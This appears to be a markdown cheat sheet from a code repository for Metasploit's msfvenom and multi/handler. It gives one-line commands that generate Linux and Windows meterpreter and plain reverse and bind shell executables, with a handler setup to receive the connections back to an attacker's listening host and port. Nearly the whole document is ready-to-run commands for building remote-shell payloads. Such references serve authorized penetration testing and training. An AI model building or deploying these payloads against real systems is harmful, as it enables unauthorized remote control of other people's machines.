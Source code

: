 

## MsfVenom

### List payloads

```
msfvenom -l
```

## Metasploit Handler

```
use exploit/multi/handler
set PAYLOAD <Payload name>
Set RHOST <Remote IP>
set LHOST <Local IP>
set LPORT <Local Port>
Run
```

## Binaries Payloads

#### Linux Meterpreter Reverse Shell

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf
```

#### Linux Bind Meterpreter Shell

```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf
```

#### Linux Bind Shell

```
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf
```

#### Windows Meterpreter Reverse TCP Shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```

#### Windows Reverse TCP Shell

```
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```
